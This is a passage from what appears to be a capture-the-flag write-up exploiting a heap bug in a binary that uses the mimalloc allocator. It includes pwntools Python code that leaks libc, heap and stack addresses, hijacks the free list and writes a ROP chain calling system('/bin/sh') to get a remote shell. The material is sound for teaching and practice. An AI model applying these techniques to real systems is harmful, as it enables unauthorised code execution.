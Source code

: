 To set things up for later exploitation, I allocated a chunk that sits directly on the free lists. Close to it in memory, there’s also a libc pointer. So by reading this chunk, we get two wins at once: a **libc leak** and **control of the free lists** (the Allocation Free List and the Local Free List).

![mod_mi-pica.png](/d1ff/doremi/1f52789d-8511-4251-9ba1-3639b4ed4b8d.png)

---

## Exploitation

So far, we’ve got both a **libc leak** and a **mimalloc heap leak**. On top of that, we managed to allocate a chunk right on the free list itself, which gives us **direct control over future allocations**. From here, there are multiple ways to spawn a shell on remote. The approach I used was to **write a ROP chain onto the stack**, so that when the `update` function returns, execution jumps straight into the ropchain.

To pull this off, we first need a **stack pointer**. Libc provides one in `environ`, which always points to the current stack. By rewriting the Allocation Free List pointer to the address of `libc.environ`, the next allocation will hand us a chunk at that location. From there, we can simply read it to leak the **stack address**. 

```python
################################# stack leak #########
libc_environ = libc.address + 0x7da0fe9c6d60 - 0x7da0fe922000
edit(3,pack(libc_environ))
create(4)
look(4)
stack_leak = unpack(r.recv(6),'all')
print(hex(stack_leak)) 
######################################################
```

From the challenge’s Docker instance, we can figure out the exact offset between the leaked stack address from `environ` and the return address of the `update` function. That offset turns out to be **-0x70 bytes**.

ow we just point the **Allocation Free List head** to the exact stack address we want (the return address of `update`). Then, by creating a new chunk, we can write our **ROP chain** directly onto the stack. When the `update` function finally returns, execution jumps straight into our chain — and we pop a shell. **Boom!** 

```python
###################### rop_chain ######################
ROP = ROP(libc)
rdi = libc.address + 0x0000000000014413
ret = libc.address + 0x0000000000014126
system = libc.address + 0x00000000000501b0
payload = pack(rdi) + pack(next(libc.search('/bin/sh\0'))) + pack(ret) + pack(libc.sym.system)
ret_addr = stack_leak-0x70
edit(3,pack(ret_addr))
create(5)
edit(5,payload)
r.interactive()
```

